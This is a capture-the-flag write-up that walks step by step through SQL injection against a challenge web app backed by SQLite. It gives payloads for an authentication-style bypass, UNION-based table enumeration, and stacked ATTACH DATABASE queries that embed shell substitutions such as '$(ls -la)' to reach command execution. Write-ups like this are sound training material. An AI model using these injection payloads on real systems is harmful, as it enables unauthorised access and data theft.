







# Introduction
This challange was rather interesting, where your POST data returns data maybe there is SQLi !!

## Challange Discription

ARIA has started making simple applications to display their intelligence, but they're still in a rough state. Break in, and discover the critical information!

https://uscybercombine-s4-biocheck.chals.io/


## Step 1

When user input is taken and data is returned, maybe backend is working with a database.
This is what Post normal data request and response:



The first thing we can check is (**'**) to see if it cause any error or a vierd response:




It gives error So maybe we can do SQLi !!


## Step 2

Assume we have bellow syntax:

```sql
select * from data where query = 'INPUT' ;
```

So lets send this payload 
> 1' or 1=1 --

This will make query like this:

```sql
select * from data where query = '1' or 1=1 --' ;
```



We got all data of rows in response, now it's time to extrat some data :)


## Step 3
We can continue with **sqlmap** but let's go manual 
- database is sqllite
    - got this from **sqlmap**

Let's see how many columns we have with **UNION** :
> 1' or 1=1 UNION select 1 --

We have only 1 row and that will be enough to extract data.

we can extract table name with this payload
> 1' UNION ALL SELECT tbl_name FROM sqlite_master WHERE type='table'--




## Step 4

After 4 hours of headache got a simple command execution on os.
- first attach a new DataBase and insert data in a table ( data is command )
- Then read data from that new database and table

First step to run command:
> 1'; ATTACH DATABASE '/tmp/exploit.db' AS exploit; CREATE TABLE exploit.cmd5(cmd5 text); INSERT INTO exploit.cmd5(cmd5) VALUES('$(ls -la)'); --




Seconnd step to see result of command:
> 1' ; ATTACH DATABASE '/tmp/exploit.db' AS exploit;   SELECT * FROM exploit.cmd5  --




Finally we can read the flag ....

>1'; ATTACH DATABASE '/tmp/exploit.db' AS exploit; CREATE TABLE exploit.cmd27(cmd27 text); INSERT INTO exploit.cmd27(cmd27) VALUES('$(grep -r "SIVB" . )');


